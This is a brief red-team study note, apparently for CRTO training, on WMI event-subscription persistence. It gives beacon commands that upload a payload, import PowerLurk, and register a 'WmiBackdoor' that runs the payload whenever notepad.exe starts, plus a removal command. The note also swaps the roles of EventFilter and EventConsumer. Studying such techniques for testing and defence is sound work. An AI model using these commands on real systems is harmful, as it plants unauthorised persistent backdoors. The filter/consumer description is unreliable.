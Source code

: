 
WMI events allow to based on an action (EventConsumer) certain other actions can happen (EventFilter). 

Actions like a certain tool, service, is executed, or a usb is plugged, or a login, can trigger the following events.

### 🖊️ Set Up

1) You can use a tool like [Powerlurk](https://github.com/Sw4mpf0x/PowerLurk) to create these events
2) Upload your payload ([[TCP Beacon]]) and load ps script

	```
	beacon> cd C:\Windows
	beacon> upload C:\Payloads\dns_x64.exe
	beacon> powershell-import C:\Tools\PowerLurk.ps1
	```

3) Register the event, for example:

	`beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe`

In this example, when the notepad.exe is executed (EventConsumer), the payload is executed (EventFilter).

The backdoor can be removed with `Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject`.


### Properties
---
📆 created   {{10-02-2024}} 21:17
🏷️ tags: #redteam #crto 

---

